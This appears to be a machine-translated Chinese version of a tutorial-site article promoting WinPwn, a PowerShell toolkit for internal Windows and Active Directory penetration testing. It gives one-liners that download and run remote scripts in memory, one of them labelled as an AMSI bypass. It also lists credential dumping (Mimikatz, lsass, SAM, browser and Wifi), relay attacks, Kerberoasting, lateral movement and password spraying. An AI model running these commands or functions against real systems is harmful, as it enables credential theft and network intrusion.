

# WinPwn:内部 Windows 渗透测试/ AD 安全的自动化

> 原文：<https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/>

**WinPwn** 是内部 Windows 渗透测试/ AD-Security 的自动化。在过去的许多内部渗透测试中，由于缺少代理支持，我经常遇到现有 Powershell Recon / Exploitation 脚本的问题。

我经常一个接一个地运行相同的脚本来获取关于当前系统和/或域的信息。为了自动执行尽可能多的内部渗透测试流程(侦察和利用)以及代理原因

我用自动代理识别和集成编写了自己的脚本。该脚本大多基于其他知名的大型攻击性安全 Powershell 项目。它们通过 IEX 下载字符串加载到内存中。

欢迎任何建议、反馈、拉动请求和评论！

只需导入带有**或`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`或**的模块

对于 AMSI 旁路，使用以下一行:`**iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/ObfusWinPwn.ps1')**`

如果你发现自己被困在一个没有互联网接入的 windows 系统上——完全没有问题，只需使用 Offline_Winpwn.ps1，所有的脚本和可执行文件都包括在内。

**也可阅读-[Jaeles:自动化 Web 应用测试的瑞士军刀](https://kalilinuxtutorials.com/jaeles-the-swiss-army-knife-web-application-testing/)**

导入后可用的功能:

*   `**WinPwn**` - >菜单选择攻击:
*   `**Inveigh**` - >在新的控制台窗口中执行 Inveigh，集成了会话管理(Invoke-TheHash)的 SMB-Relay 攻击
*   `**sessionGopher**` - >执行 Sessiongopher 向您询问参数
*   `**kittielocal**` - >
    *   模糊调用-Mimikatz 版本
    *   记忆中的安全卡茨
    *   使用 rundll32 技术转储 lsass
    *   下载并运行千层面
    *   转储浏览器凭据
    *   从记忆中提取有趣的信息
    *   过滤 Wifi 凭证
    *   转储山姆-文件 NTLM 哈希
*   `**localreconmodules**` - >
    *   收集已安装的软件、易受攻击的软件、共享、网络信息、组、权限等等
    *   检查典型的漏洞，如 SMB 签名、LLMNR 中毒、MITM6、WSUS
    *   检查 Powershell 事件日志中的凭据或其他敏感信息
    *   在注册表和文件系统中搜索密码
    *   查找敏感文件(配置文件、RDP 文件、keepass 数据库)
    *   搜索。本地系统上的. NET 二进制文件
    *   可选项:Get-computer details(Powersploit)和 PSRecon
*   `**domainreconmodules**` - >
    *   收集各种领域信息进行人工审查
    *   在描述字段中查找 AD 密码
    *   搜索潜在敏感域共享文件
    *   ACLAnalysis
    *   列举不受约束的委托系统/用户
    *   用于域系统的 MS17-10 扫描仪
    *   SQL Server 发现和审计功能(默认凭据、数据库中的密码等)
    *   对域控制器进行 MS-RPRN 检查
    *   使用 group 2 的组策略审计
    *   使用 ADRecon 在 CSV 文件(或 XLS，如果安装了 excel)中生成广告报告。
*   `**Privescmodules**` - >在内存中执行不同的特权脚本(加电 Allchecks，夏洛克，GPPPasswords)
*   `**latmov**` - >在域中搜索具有管理员访问权限的系统进行横向移动。Mass-Mimikatz 可在找到系统后使用
*   `**shareenumeration**` - >调用-文件查找器和调用-共享查找器(Powerview / Powersploit)
*   `**groupsearch**`->Get-domainpouserlocalgroupmapping-通过组策略映射(Powerview / Powersploit)查找您拥有管理员访问权限或 RDP 访问权限的系统
*   `**Kerberoasting**` - >在一个新窗口中执行 Invoke-Kerberos ast 并存储哈希以备以后破解
*   `**powerSQL**` - > SQL Server 发现，检查当前用户的访问，审计默认凭据+ UNCPath 注入攻击
*   `**Sharphound**` - >下载 Sharphound 并为 Bloodhound DB 收集信息
*   `**adidnswildcard**` - >创建活动目录集成的 DNS 通配符记录
*   `**MS17-10**` - >扫描域中活动的 windows 服务器或所有系统中的 MS17-10(永恒之蓝)漏洞
*   `**Sharpcradle**` - >将 C#文件从远程 web 服务器加载到 RAM
*   `**DomainPassSpray**` - >域名密码攻击，所有域用户一个密码

**免责声明**

未经双方事先同意，使用 WinPwn 攻击目标是非法的。最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对本程序造成的任何误用或损坏负责。仅用于教育目的。

[**Download**](https://github.com/S3cur3Th1sSh1t/WinPwn)